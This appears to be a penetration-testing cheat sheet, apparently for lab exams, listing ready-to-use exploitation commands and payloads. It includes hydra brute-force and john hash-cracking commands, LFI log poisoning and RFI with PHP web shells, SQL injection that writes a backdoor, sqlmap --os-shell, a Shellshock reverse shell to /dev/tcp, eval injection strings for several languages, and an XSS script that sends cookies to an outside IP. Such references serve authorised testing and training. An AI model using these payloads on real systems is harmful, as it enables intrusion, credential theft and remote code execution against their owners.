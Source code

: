 # Exploitation

## Credentials

Create Passwd Directory for Brute Force

``` bash
cewl -m 5 http://$ip/joomla/ > passwd.txt
```

Default Credentials

``` bash
ls /usr/share/seclists/Passwords/Default-Credentials
```

Crack hash

``` bash
john hash --wordlist=/home/kali/tools/directory/rockyou.txt
```

Broute force

``` bash
hydra -L users.txt -P /usr/share/wordlists/rockyou.txt 192.168.169.106 --http-post-form '/login:user=^USER^,pass=^PASS^:Unauthorized'
```

## Directory Traversal

Unix

``` bash
/etc/passwd
```

Windows

``` cmd
c:\boot.ini
c:\windows\system32\drivers\etc\hosts
```

## PHP Wrappers

Inject php code via plantext 

``` bash
http://ip/file.php?file=data:text/plain,<?php echo shell_exec("dir") ?>
```

Inject php code via base64

``` bash
http://ip/file.php?file=data:;base64,PD9zeXN0ZW0oJF9HRVRbJ3gnXSk7Pz4=&x=dir
```

Encode base64 file before read it.

``` bash
http://ip/file.php?file=php://filter/read=convert.base64-encode/resource=/etc/passwd
```

## File Inclusion

### Local File Inclusion

Null byte: `%00`

Write payload to `access.log` file

``` bash
$ nc -nv 192.168.11.131 80
(UNKNOWN) [192.168.11.131] 80 (http) open
<?php echo '<pre>' . shell_exec($_GET['cmd']) . '</pre>';?>
```

Get RCE via file inclusion

``` bash
curl http://192.168.11.131/file.php?file=c:\xampp\apache\logs\access.log&cmd=ipconfig
```

### Remote File Inclusion

``` php
<?php echo shell_exec($_GET['cmd']); ?>
```

``` bash
curl http://target/?page=http://$ip/backdoor.txt&cmd=id
```

## SQL Injection

### Authentication Bypass

``` bash
admin' or 1=1 LIMIT 1;#
```

### Enumerating the Database

``` bash
order by 3
```

``` bash
union all select 1, 2, 3
```

``` bash
union all select 1, @@version, 3
```

``` bash
union all select 1, table_name from information_schema.tables, 3
```

``` bash
union all select 1, column_name from information_schema.columns where table_name='users', 3
```

``` bash
union all select 1, username, password from users
```

### SQLi to Code Execution

Read file

``` bash
union all select 1, load_file('C:/Windows/System32/drivers/etc/hosts'), 3
```

Write backdoor

``` bash
union all select 1, "<?php echo shell_exec($_GET['cmd']);?>" into OUTFILE 'c:/xampp/htdocs/backdoor.php', 3
```

### Automating SQL Injection

``` bash
sqlmap -u http://$ip/debug.php?id=1 -p "id"
```

dump databases

``` bash
sqlmap -u http://$ip/debug.php?id=1 -p "id" --dbms=mysql --dump
```

execute a shell

``` bash
sqlmap -u http://$ip/debug.php?id=1 -p "id" --dbms=mysql --os-shell
```

## <a href='https://github.com/mubix/shellshocker-pocs' target="blank">Shellshock POC</a>

``` bash
curl -H "user-agent: () { :; }; echo; /bin/bash -c 'bash -i >& /dev/tcp/$myip/445 0>&1'" http://$ip/cgi-bin/user.sh
```

## Command Execution

```bash
;id
`id`
$(id)
```

## Code Execution

Ruby 

``` bash
eval "\""+params['1']+"\""

?1="%2b`id`%2b"
```

Python

``` bash
eval('"'+1+'"')

"%2bos.system('id')%2b"

"%2bos.popen('id').read()%2b"

"%2b__import__('os').popen('id').read()%2b"

"%2b__import__('os').popen(__import__('base64').b64decode('aWQ=')).read()%2b"
```

Perl

``` bash
eval("return '".$FORM{1}."'");

/cgi-bin/form?1='.`id`.'
```

PHP

<a href='https://www.php.net/manual/en/function.eval.php' target="blank">eval()</a>

``` bash
$s="echo \"".$_GET['1']."\";";

eval($s);

?1=".system('id')."
```

usort()

``` bash
$1 = $_GET["1"];

usort(function('$a, $b', 'return strcmp($a->'.$1.',$b->'.$1.');'));

?1=id);}system('id');//
```

preg_replace()

``` bash
preg_replace($_GET["1"], $_GET["2"], $_GET["3"]);

?1=/x/e&2=system('id')&3=x
```

assert()

``` bash
assert(trim("'".$_GET['1']."'"));

echo htmlentities($_GET['1']);

?1=hacker'.system('id').'
```

## XSS Basic Exploit

Break code

``` bash
< > ' " { } ;
```

Content Injection

```
<iframe src=http://ip/report height="0" width="0"></iframe>
```

Stealing Cookies and Session Information

```
<script>new Image().src="http://10.11.0.4/cool.jpg?output="+document.cookie;</script>
```